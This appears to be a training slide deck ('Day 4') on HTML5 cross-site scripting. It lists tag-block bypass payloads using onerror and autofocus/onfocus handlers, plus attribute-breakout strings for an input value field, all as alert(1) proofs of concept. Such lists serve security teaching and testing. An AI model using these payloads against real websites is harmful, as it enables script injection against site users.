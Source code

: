 
# Day 4
--

# HTML5 Tags

1. HTML5-driven cross-site scripting using tags, events and attributes
1. Exploiting svg tag
1. Exploiting webrtc


--

# Bypass tag blocks

<pre>

&lt;video onerror="javascript:alert(1)">

&lt;audio onerror="javascript:alert(1)">

&lt;input autofocus onfocus=alert(1)>

&lt;select autofocus onfocus=alert(1)>

&lt;textarea autofocus onfocus=alert(1)> 

&lt;keygen autofocus onfocus=alert(1)>

</pre>
--

￼
# Attack Vectors

1. for following input 
<pre>
￼￼&lt;input type=”text” value=”yourinput”>
</pre>
List of payload that can be tried.

<pre>

" onfocus=alert(1) autofocus x="

" onfocusin=alert(1) autofocus x=" 

" onfocusout=alert(1) autofocus x=" 

" onblur=alert(1) autofocus x="

</pre>

--
